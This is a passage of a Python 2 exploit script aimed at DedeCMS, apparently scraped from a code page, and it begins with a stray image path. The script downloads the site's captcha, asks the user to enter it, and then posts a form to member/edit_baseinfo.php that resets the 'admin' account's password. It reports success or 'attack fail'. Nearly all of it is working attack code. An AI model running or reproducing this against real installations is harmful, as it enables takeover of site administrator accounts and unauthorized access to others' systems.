 headers = {"Referer": dede_host + "member/edit_baseinfo.php"}
rs = s.get(dede_host + 'include/vdimgck.php').content
file = open('2.jpg', "wb")
file.write(rs)
file.close()

vdcode = raw_input("Please enter the verification code : ")

data = {"dopost": "save", "uname": "admin", "oldpwd": oldpwd, "userpwd": newpwd, "userpwdok": newpwd,
        "safequestion": "0", "newsafequestion": "0", "sex": "男", "email": "admin@admin.com", "vdcode": vdcode}
rs = s.post(dede_host + '/member/edit_baseinfo.php', data=data)
if "成功更新你的基本资料" in  rs.content:
   print "Administrator password modified successfully !!"
   print "The new administrator password is : " + newpwd
else:
    print "attack fail" 
``` 
```
